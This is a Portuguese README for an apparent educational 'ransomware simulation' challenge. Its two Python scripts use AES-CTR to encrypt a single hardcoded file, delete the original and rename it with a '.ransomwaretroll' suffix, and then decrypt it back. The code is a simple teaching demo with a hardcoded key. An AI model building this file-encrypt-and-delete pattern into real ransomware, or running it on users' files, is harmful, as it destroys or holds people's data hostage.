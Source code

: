 # README: Ferramenta de Criptografia e Descriptografia com AES

## Visão Geral
Este projeto implementa um exemplo de criptografia e descriptografia de arquivos utilizando o algoritmo AES (Advanced Encryption Standard) no modo CTR (Counter Mode). Ele demonstra como proteger dados ao criptografar um arquivo e restaurá-los posteriormente por meio de uma chave secreta.

## Recursos
1. **Criptografia de arquivos**: Converte um arquivo de texto em um arquivo criptografado.
2. **Descriptografia de arquivos**: Restaura o arquivo original a partir de sua versão criptografada.
3. **AES no modo CTR**: Um dos modos mais seguros para criptografia de dados, pois gera um fluxo pseudoaleatório para proteger os dados.

---

## Pré-requisitos
Antes de executar os scripts, certifique-se de que os seguintes itens estejam instalados:

- **Python 3**: Certifique-se de que o Python 3 está instalado.
- **Biblioteca pyaes**: Instale a biblioteca `pyaes` usando o comando:
  ```bash
  pip install pyaes
  ```
- **Sistema Operacional**: Desenvolvido e testado no Kali Linux, mas compatível com qualquer sistema operacional que suporte Python.

---

## Estrutura do Projeto
- **`encrypt.py`**: Script responsável por criptografar um arquivo.
- **`decrypt.py`**: Script responsável por descriptografar um arquivo.

---

## Instruções de Uso

### 1. **Criptografia do Arquivo**

Arquivo: `encrypt.py`

Este script criptografa um arquivo de texto, exclui o arquivo original e cria um novo arquivo com o sufixo `.ransomwaretroll`.

#### Fluxo do Código
1. O script abre o arquivo original no modo binário.
2. A chave de 16 bytes é definida.
3. Os dados do arquivo são criptografados usando o algoritmo AES no modo CTR.
4. O arquivo original é excluído.
5. Um novo arquivo criptografado é criado com o nome original e o sufixo `.ransomwaretroll`.

#### Exemplo de Execução
1. Certifique-se de que existe um arquivo `teste.txt` na mesma pasta do script.
2. Execute o script com:
   ```bash
   python encrypt.py
   ```
3. Após a execução:
   - O arquivo `teste.txt` será excluído.
   - Um novo arquivo `teste.txt.ransomwaretroll` será criado com os dados criptografados.

#### Código Base:
```python
import os
import pyaes

file_name = "teste.txt"

try:
    with open(file_name, "rb") as file:
        file_data = file.read()

    os.remove(file_name)

    key = b"testeransomwares"
    aes = pyaes.AESModeOfOperationCTR(key)
    crypto_data = aes.encrypt(file_data)

    new_file_name = f"{file_name}.ransomwaretroll"
    with open(new_file_name, "wb") as new_file:
        new_file.write(crypto_data)

    print(f"Arquivo '{file_name}' criptografado com sucesso para '{new_file_name}'.")

except FileNotFoundError:
    print(f"Erro: O arquivo '{file_name}' não foi encontrado.")
except Exception as e:
    print(f"Ocorreu um erro: {e}")
```

---

### 2. **Descriptografia do Arquivo**

Arquivo: `decrypt.py`

Este script restaura um arquivo criptografado ao descriptografar seus dados e recriar o arquivo original.

#### Fluxo do Código
1. O script abre o arquivo criptografado no modo binário.
2. A mesma chave de 16 bytes usada na criptografia é definida.
3. Os dados do arquivo criptografado são descriptografados usando o algoritmo AES no modo CTR.
4. O arquivo criptografado é excluído.
5. Um novo arquivo é criado com o conteúdo restaurado.

#### Exemplo de Execução
1. Certifique-se de que o arquivo `teste.txt.ransomwaretroll` gerado no processo de criptografia está na mesma pasta do script.
2. Execute o script com:
   ```bash
   python decrypt.py
   ```
3. Após a execução:
   - O arquivo `teste.txt.ransomwaretroll` será excluído.
   - O arquivo original `teste.txt` será recriado com o conteúdo restaurado.

#### Código Base:
```python
import os
import pyaes

file_name = "teste.txt.ransomwaretroll"

try:
    with open(file_name, "rb") as file:
        file_data = file.read()

    key = b"testeransomwares"
    aes = pyaes.AESModeOfOperationCTR(key)
    decrypt_data = aes.decrypt(file_data)

    os.remove(file_name)

    new_file_name = "teste.txt"
    with open(new_file_name, "wb") as new_file:
        new_file.write(decrypt_data)

    print(f"Arquivo '{file_name}' descriptografado com sucesso para '{new_file_name}'.")

except FileNotFoundError:
    print(f"Erro: O arquivo '{file_name}' não foi encontrado.")
except Exception as e:
    print(f"Ocorreu um erro: {e}")
```

---

## Segurança e Observações

1. **Chave de Criptografia**: A chave utilizada para criptografia e descriptografia deve ser mantida em segurança. Se for perdida, os dados criptografados não poderão ser recuperados.

2. **Remoção de Arquivos**: O script remove os arquivos originais para simular o comportamento de um ransomware. Use com cuidado para evitar perda acidental de dados.

3. **Compatibilidade**: O algoritmo AES exige uma chave com tamanhos específicos (16, 24 ou 32 bytes). Certifique-se de que a chave atende a esse requisito.

4. **Uso Ético**: Este código é fornecido apenas para fins educacionais. O uso indevido deste script pode ser ilegal e é estritamente proibido.

---

## Contato
Se você tiver dúvidas ou precisar de ajuda, sinta-se à vontade para entrar em contato.

---

### Licença
Este projeto é licenciado sob os termos da licença MIT. Consulte o arquivo LICENSE para mais detalhes.

# DesafioDIO_ransomware_Python
